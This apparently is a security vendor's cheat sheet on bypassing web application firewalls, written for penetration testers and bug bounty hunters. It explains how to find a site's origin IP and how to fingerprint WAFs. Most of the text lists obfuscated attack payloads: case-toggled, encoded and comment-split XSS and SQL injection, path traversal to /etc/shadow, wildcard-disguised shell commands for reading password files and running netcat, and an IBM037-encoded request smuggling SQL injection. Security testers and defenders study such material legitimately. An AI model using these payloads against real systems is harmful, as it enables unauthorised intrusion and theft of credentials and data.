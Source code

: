 
### What is WAF?

Web application firewall (WAF) is a set of monitors and filters designed to detect and block network attacks on a web application. WAFs refer to the application layer of the OSI model.

The web application firewall is used as a security tool. In real time, it decides whether to grant or deny access.

Companies should be informed that WAF is not a full-fledged information protection tool. Usually, it is included in the overall security system of a web application with other elements such as components that solve the problems of protocols other than HTTP / HTTPS, incident control systems, and anti-fraud services.

When conducting penetration testing, we first identify the real IP address, enumerate the WAF vendor, and try to bypass the WAF. After the defense is broken through, the most exciting part begins. Everything the client has wanted to hide behind the WAF provides room for further penetration testing.


How many times have we bypassed such protection?
It is shocking that every second site is vulnerable to this bypass method and techniques. Since the WAF vendors are trying to maintain static regexp lists to trigger WAF, hackers find new ways to bypass this protection by masking payloads. There are almost no locks that cannot be broken by a scrap. Therefore, we see an endless game of cat and mouse, hackers against WAFs.
So a summary of reasons for using WAF:

    Defense in Depth approach.
    Detects and blocks attacks against vulnerable web applications.
    Protects against a variety of vulnerabilities. 
    Secures a company’s web environment.

Popular WAF vendors                 
What do to find WAF vendor and real IP address
Real IP disclosure

1. RUN shodan.io or censys.io

2. Search SPF records and TXT records.

SPF and TXT records might have an IP address of a CloudFlare less origin point.

3. Also can check securitytrails.com in field Historical data might have original IP in old records.
How to proof WAF set up correctly:

    WAFs use  standard ports 80, 443, 8000, 8008, 8080, and 8088 ports.
    WAFs set their own cookies in requests.
    WAFs associate themselves with separate headers.
    WAFs expose themselves in the Server header.
    WAFs expose themselves in the response content.
    WAFs reply with unique response codes upon malicious requests.

    Send a standard GET request from a browser, intercept, and record response headers (specifical cookies).
    Send a request from the command line (e.g., cURL), and then check response content and headers.
    Send GET requests to random open ports and check banners that might expose the WAFs identity.
    Try some SQL injection payloads like: ” or 1 = 1 — to login forms or forget a password.
    Try with noisy XSS payloads like <script>confirm()</script> in some input fields.
    Try to add ../../../etc/passwd to a random parameter in the URL address.
    Add some payloads like ‘ OR SLEEP(5) OR ‘ at the end of URLs to any random parameter.
    Send GET requests with outdated protocols like HTTP/0.9 (HTTP/0.9 does not support POST type queries).
    Check the server header upon different types of interactions.
    Send a raw crafted FIN&RST packet to the server and identify a response.
    Side-Channel Attacks – Examine the timing behavior of the request and response content.

Most hackers use automated tools to speed up processes to bypass WAFs on resources of their interest. We have compiled a small list of tools that hackers use every day. The use of these tools is just the first step to checking what is open to hackers. Always do a regular penetration test, as WAFs replenish their base every day, in ways they can get around them. But hackers also do not sleep and every day they look for new ways to bypass WAFs.

It is very cool when companies do a penetration test and participate in bug bounty programs, which allow them to attract thousands of white hat hackers to their side, and jointly fix the mistakes made by the developers and WAFs.
Tools to Check and Bypass WAFs:

w3af — Web Application Attack and Audit Framework

wafw00f — Identify and fingerprint Web Application Firewall

BypassWAF – Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain. 

CloudFail – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.
Techniques to bypass WAF:
1. Case Toggling Technique

    Combine upper and lower case characters for creating efficient payloads.

Basic Request:

<script>confirm()</script>

Bypassed Technique:

<ScrIpT>confirm()</sCRiPt>

Basic Request:

SELECT * FROM * WHERE OWNER = 'NAME_OF_DB'

Bypassed Technique:

sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

Example in URL:

http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4
2. URL Encoding Technique

    Encode normal payloads with % encoding/URL encoding.
    You can use Burp. It has an encoder/decoder tool.

Blocked by WAF:

<Svg/x=">"/OnLoAD=confirm()//

Bypassed Technique:

%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F

Blocked by WAF:

UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)

Bypassed Technique:

UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29

Example in URL:

https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT
3. Unicode Technique

    ASCII characters in Unicode encoding give us great variants for bypassing WAF.
    Encode entire or part of the payload for obtaining results.

Basic Request:

<marquee onstart=prompt()>

Obfuscated:

<marquee onstart=\u0070r\u06f\u006dpt()>

Blocked by WAF:

/?redir=http://google.com

Bypassed Technique:

/?redir=http://google。com (Unicode alternative)

Blocked by WAF:

<marquee loop=1 onfinish=alert()>x

Bypassed technique:

＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)

Basic Request:

../../etc/shadow

Obfuscated:

%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow
4. HTML Representation Technique

    WebApps encode special characters into HTML. Encoding and render them accordingly.
    Basic bypass cases with HTML encoding numeric and generic.

Basic Request:

"><img src=x onerror=confirm()>

Encoded Payload:

&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt; 

Encoded Payload:

&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62; 
5. Mixed Encoding Technique

    Such rules often tend to filter out a specific type of encoding.
    Such filters can be bypassed by mixed encoding payloads.
    Newlines and tabs and further add to obfuscation.

Obfuscate Payload:

<A HREF="h
tt p://6 6.000146.0x7.147/">XSS</A>
6. Using Comments Technique

    Comments obfuscate standard payload vectors.
    Different payloads have different ways of obfuscation.

Blocked by WAF:

<script>confirm()</script>

Bypassed Technique:

```<!--><script>confirm/**/()/**/</script>```

Blocked by WAF:

/?id=1+union+select+1,2--

Bypassed Technique:

/?id=1+un/**/ion+sel/**/ect+1,2--

    Insert comments in the middle of attack strings. For instance, /*!SELECT*/ might be overlooked by the WAF but passed on to the target application and processed by a mysql database.

Example in URL:

index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4   

   'union%a0select pass from users#

Example in URL:

index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
 7. Double Encoding Technique

    Web Application Firewall filters tend to encode characters to protect web app.
    Poorly developed filters (without recursion filters) can be bypassed with double encoding.

Basic Request:

http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

Obfuscate Payload:

http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

Basic Request:

<script>confirm()</script>

Obfuscate Payload:

%253Cscript%253Econfirm()%253C%252Fscript%253E
8. Wildcard Obfuscation Technique

    Global patterns are used by various command-line utilities to work with multiple files.
    We can change them to run system commands.

Basic Request:

/bin/cat /etc/passwd

Obfuscate Payload:

/???/??t /???/??ss??

Used chars:

/ ? t s

Basic Request:

/bin/nc 127.0.0.1 443

Obfuscate Payload:

/???/n? 2130706433 443

Used chars:

/ ? n [0-9]

Dynamic Payload Generation Technique:

    Programming languages have different patterns and syntaxes for concatenation.
    This allows us to generate payloads that can bypass many filters and rules.

Basic Request:

<script>confirm()</script>

Obfuscate Payload:

<script>eval('con'+'fi'+'rm()')</script>

Basic Request:

/bin/cat /etc/shadow

Obfuscate Payload:

/bi'n'''/c''at' /e'tc'/sh''ad'ow

Bash allows path concatenation for execution.

Basic Request:

<iframe/onload='this["src"]="javascript:confirm()"';>

Obfuscate Payload

<iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:con"+"fir"+"m()"';>
9. Junk Characters Technique

    Simple payloads get filtered out easily by WAF.
    Adding some junk chars helps avoid detection (only specific cases ).
    This technique often helps in confusing regex-based firewalls.

Basic Request:

<script>confirm()</script>

Obfuscate Payload:

<script>+-+-1-+-+confirm()</script>

Basic Request:

<BODY onload=confirm()>

Obfuscate Payload:

```<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>```

Basic Request:

<a href=javascript;alert()>ClickMe

Bypassed Technique:

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
10. Line Breaks Technique

    A lot of WAFs with regex-based filtering effectively blocks many attempts.
    Line breaks technique (CR and LF) can break firewall regex and bypass stuff.

Basic Request:

<iframe src=javascript:confirm(hacker)">

Obfuscate Payload:

<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(hacker)">
11. Uninitialized Variables Technique

    Wrong regular expression based filters can be evaded with uninitialized bash variables.
    Such value equal to null and acts like empty strings.
    Bash and perl allow such kind of interpretations.

First Level Obfuscation: Normal

    Basic Request:
    /bin/cat /etc/shadow
    Obfuscate Payload:
    /bin/cat$u /etc/shadow$u

Second Level Obfuscation: Position Based

    Basic Request:
    /bin/cat /etc/shadow
    Obfuscate Payload:
    $u/bin$u/cat$u $u/etc$u/shadow$u

Third Level Obfuscation: Random characters

    Basic Request:
    /bin/cat /etc/passwd
    Obfuscate Payload:
    $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff

12. Tabs and Line Feeds Technique

    Tabs often help to evade firewalls, especially regex-based.
    Tabs can help break WAF regex when the regex is expecting whitespaces and not tabs.

Basic Request:

<IMG SRC="javascript:confirm();">

Bypassed Technique:

<IMG SRC=" javascript:confirm();">

Variant:

<IMG SRC=" jav ascri pt:confirm ();">

Basic Request:

http://test.com/test?id=1 union select 1,2,3

Bypassed Technique:

http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3

Basic Request:

<iframe src=javascript:confirm()></iframe>

Obfuscate Payload:

<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:c&Tab;o&Tab;n&Tab;f&Tab;i&Tab;r&Tab;m&Tab;%28&Tab;%29></iframe>
13. Token Breakers Technique

    Attacks on token attempt to break the logic of splitting a request into tokens with token breakers.
    Token-breakers are symbols that allow affecting the correspondence between an element of a string and a certain token.
    Our request must remain valid while using token-breakers.
    Case Study: Unknown Token for the Tokenizer

Our Payload:

?id=‘-sqlite_version() UNION SELECT passwords FROM users --

    Case Study: Unknown Context for the Parser (Notice the uncontexted bracket)

First Payload :

?id=12);DROP TABLE users --

Second Payload :

?id=133) INTO OUTFILE ‘xxx’ --
14. Obfuscation in Other Formats Technique

    Many web applications support different encoding types and can interpret the encoding.
    We always need to obfuscate the payload to a format not supported by WAF, but the server can smuggle our payload.

IIS Case: 

    IIS 6, 7.5, 8, and 10 allow IBM037 character interpretations.
    Send the encoded parameters with the query.

Original Request:

POST /example.aspx?id7=sometext HTTP/1.1
HOST: target.org
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 27
id2='union all select * from users--

Obfuscated Request with URL Encoding:

POST /example.aspx?%89%84%F7=%A2%95%94%86%A3%88%89%95%87 HTTP/1.1
HOST: target.org
Content-Type: application/x-www-form-urlencoded; charset=ibm037
Content-Length: 127
%89%84%F2=%7D%A4%95%89%97%95%40%81%93%94%40%A2%85%93%85%84%A3%40%5C%40%86%99%97%94%40%A4%A2%85%99%A2%60%60

### Conclusion

Let’s summarize everything written above. Always think outside the box. Try different encoding techniques, and some of them will work. Do not be lazy to check DNS records since it’s the only way to succeed in bug bounty hunting.

Do not forget that any protection can be bypassed in web resources and the WAF is not a panacea for all problems. Hackers do not sleep and always look for new techniques to attack your resources and get profit. Regular penetration testing from Hacken experts, as well as participation in bug bounty programs from HackenProof, will help you avoid many problems. Check more at: https://wp.hacken.io/services/penetrationtesting/

Ref. https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/